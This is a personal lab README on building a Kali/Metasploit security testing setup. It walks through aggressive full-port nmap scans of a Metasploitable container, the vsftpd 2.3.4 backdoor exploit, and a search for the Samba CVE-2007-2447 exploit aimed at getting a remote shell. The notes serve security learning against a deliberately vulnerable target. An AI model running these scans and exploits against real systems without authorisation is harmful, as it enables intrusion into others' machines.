

# Security Testing Environment

## links

 - Network Chuck - Setup Kali on WSL <https://www.youtube.com/watch?v=dgdOILL1184>
 - Kali in Docker - <https://www.kali.org/docs/containers/using-kali-docker-images/>
 - kex offical - <https://www.kali.org/docs/wsl/win-kex/>
 - 
## Setup Kali Linux with WSL

1. Instll Kali Linux using WSL
2. update/upgrade 
3. Install kali-win-kex

```bash
sudo apt update && \
sudo apt upgrade -y \
sudo apt install kali-win-kex

# launch gui environment
kex
```

## Install Metasploit

```bash
# Recommended way... didnt work
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && chmod 755 msfinstall && ./msfinstall

# this route did work...
sudo apt-get install metasploit-framework postgresql
```

### Setup the Database

By default, metasploit will use Postgresql, but you will need to start the database and initilize it.

```bash
sudo msfdb start
sudo msfdb init
```

## Running Metasploit Console

```bash
msfconsole

# yes to setup new database first time
# no to creating web server - not required
```

### Scanning with Metasploit

nmap can be used to scan the target and obtain more information, often called reconnaissance. This can be done using nmap - make sure the package is installed.

```bash

# install the package at the bash prompt
sudo apt install nmap -y

# run this command at the msf console
db_nmap -v -T4 -PA -sV --version-all --osscan-guess -A -sS -Pn -p 1-65535 <ip address>
```

When the scan is done, you can run the "services" command to get the output of your scan. Here is a sample output.


### vsftpd Exploit

This service is running on the metasploitable container and can be exploited using metasploit.

```bash
# search metasploit for vsftpd to see if it has anything it can use to exploit this service
search vsftpd

# load up the exploit in the console
use exploit/unix/ftp/vsftpd_234_backdoor

# The command prompt will change to:
# msf6 exploit(unix/ftp/vsftpd_234_backdoor) >

# use the info command to get more information on the attack
info

# Set the host and port
set RHOST <ipaddress>
set RPORT <port>

# run the exploit
run
```
Here is the output from the search:


Here is the sample info for the exploit:


Here is an example of running the exploit:


### Samba Exploit

This is a quick review of Samba exploits. This service has more exploits available, which may require some additional work...

```bash
# search the metasploit database for exploits related to samba
search samba
```

Here are the search results for Samba


```bash
# Rescan the service to get more information
nmap -PA -A -sV -sT -T4 --version-all -v -p <port num> <ip addr>
```

The second targeted nmap scan will give you more information about the service and the version running. This can be used to do more research about potential issues. Do some google searching on the exploit and find the CVE. The CVE can also be searched inside metasploit to find a targeted attack against that service.

Here is a screenshot of a more detailed scan:



```bash
# search for the CVE
search cve:2007-2447
```


Run the exploit and see if you can get a shell on the remote machine.

